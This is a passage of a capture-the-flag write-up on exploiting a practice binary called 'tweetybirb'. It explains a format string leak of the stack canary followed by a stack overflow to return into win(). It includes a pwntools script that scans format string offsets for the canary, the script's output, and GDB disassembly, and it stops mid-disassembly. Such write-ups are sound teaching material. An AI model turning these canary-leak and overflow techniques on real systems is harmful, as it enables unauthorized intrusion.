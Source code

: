 So two vulnerabilities here.

1. Format string vulnerability in `printf(buf);`
2. Stack overflow in `gets(buf);`

Again we also have a function called `win()` in this binary that if we return to, it will give us the flag. My attack plan at the start is:

1. Use the format string vuln to leak the canary.
2. Stack overflow, overwrite the return pointer with a pointer to our `win()` function.
3. Remember last time we had to align the stack so do that with a `ret` gadget as well.

##### Leaking the Canary

So first duty is to find where the canary is located on the stack, we can use positional format strings to leak successive blocks of the stack until we bump into it. We know two things about canaries in Linux:

1. They're 64bits.
2. Always end in 00.

I'm using this format string specifier to look `%x$016llx` where x is some integer. I use this script locally to find candidates:

```python
from pwn import *

for i in range(1,50):
    p = process('./tweetybirb')
    p.recvline()
    p.sendline(b'%%%d$016llx' % i)
    res = p.recvline().decode().strip()
    if res != '0000000000000000' and res.endswith('00'):
        print('Canary maybe here %%%d$016llx: %s' %(i,res))
    p.close()
```

It found this candidate pretty quickly:

```shell
$ PWNLIB_SILENT=1 ./findcanary.py 
Canary maybe here %15$016llx: e494f91ef9963500
```

I checked in GDB and that was the canary being loaded at the time so we knew our canary now!

##### Placing the Canary

Next we need to attack the stack overflow. In order to do our intended ROP chain we need to know two things:

1. At what offset does our canary need to land in our payload to pass the canary check.
2. At what offset does our return pointer get overwritten.

I used GDB w/peda to learn these two things. To learn the canary offset I sent a `pattern_create` cyclic pattern and set a breakpoint when it was about to be checked.

```python
$ gdb ./tweetybirb
...
gdb-peda$ disass main
Dump of assembler code for function main:
   0x00000000004011f2 <+0>:     endbr64 
   0x00000000004011f6 <+4>:     push   rbp
   0x00000000004011f7 <+5>:     mov    rbp,rsp
   0x00000000004011fa <+8>:     sub    rsp,0x50
   0x00000000004011fe <+12>:    mov    rax,QWORD PTR fs:0x28
   0x0000000000401207 <+21>:    mov    QWORD PTR [rbp-0x8],rax
   0x000000000040120b <+25>:    xor    eax,eax
   0x000000000040120d <+27>:    lea    rdi,[rip+0xe0c]        # 0x402020
   0x0000000000401214 <+34>:    call   0x401090 <puts@plt>
```